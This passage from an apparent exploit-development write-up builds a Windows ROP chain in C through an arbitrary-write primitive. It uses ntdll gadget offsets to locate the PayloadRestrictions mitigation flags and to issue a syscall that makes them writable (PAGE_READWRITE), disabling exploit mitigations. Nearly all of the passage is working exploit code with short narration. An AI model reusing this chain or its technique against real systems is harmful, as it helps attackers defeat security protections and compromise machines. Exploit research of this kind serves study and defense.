 My first addition is to store the memory location of the flags:

```c
// store the address of PayloadRestrictions+0xe4000 in the general buffer - offset 0x578
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x9215b); index += 8;         // pop rcx ; ret ;
ArbitraryWrite(generalBufferAddr + index, generalBufferAddr + 0x578); index += 8;   // general buffer location
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0xecf79); index += 8;         // mov qword[rcx], rax; ret;
                                                                                    // generalBuffer+0x578 now contains the address of PayloadRestrictions+0xe4000
    
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x23c93); index += 8;         // pop rax; ret;
ArbitraryWrite(generalBufferAddr + index, generalBufferAddr + 0x578); index += 8;   // general buffer location
```

Next we to set up the registers for the `syscall`:

```c
// set up the registers for the syscall
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x3537a); index += 0x30;      // mov rcx, rax; mov rax, rcx; add rsp, 0x28; ret;
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x76230); index += 8;         // pop r13; ret;
ArbitraryWrite(generalBufferAddr + index, 0xffffffffffffffff); index += 8;          // ProcessHandle, will go in rcx
ArbitraryWrite(generalBufferAddr + index, dllBase + 0x11f4); index += 8;            // mov rbx, rcx ; ret ;
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x1948e); index += 8;         // pop r12 ; ret ;
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x1948e); index += 8;         // pop r12 ; ret ;
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x93ccd); index += 8;         // mov rdx, rbx ; mov rcx, r13 ; call r12 ;
                                                                                    // ProcessHandle in rcx, BaseAddress in rdx
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x20107); index += 8;         // pop r8; ret;
ArbitraryWrite(generalBufferAddr + index, generalBufferAddr + 0x570); index += 8;   // NumberOfBytesToProtect
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x8fb14); index += 8;         // pop r9; pop r10; pop r11; ret;
ArbitraryWrite(generalBufferAddr + index, 0x04); index += 8;                        // NewAccessProtection (PAGE_READWRITE)
ArbitraryWrite(generalBufferAddr + index, 0x4141414141414141); index += 8;          // Junk in r10
ArbitraryWrite(generalBufferAddr + index, 0x4141414141414141); index += 8;          // Junk in r11
```

Next we make the `syscall` to change the protect level on the global mitigation flags:

```c
// make the syscall
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x21339); index += 8;         // mov rax, rcx; ret;
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x1008e9); index += 0x30;     // mov r10, rax; mov rax, r10; add rsp, 0x28; ret;
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x23c93); index += 8;         // pop rax; ret;
ArbitraryWrite(generalBufferAddr + index, 0x50); index += 8;                        // 0x50
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x9f672); index += 8;         // syscall; ret

// realign the stack
ArbitraryWrite(generalBufferAddr + index, ntdllBase + 0x84ab8); index += 38;         // add rsp, 0x20; pop r15; ret;
```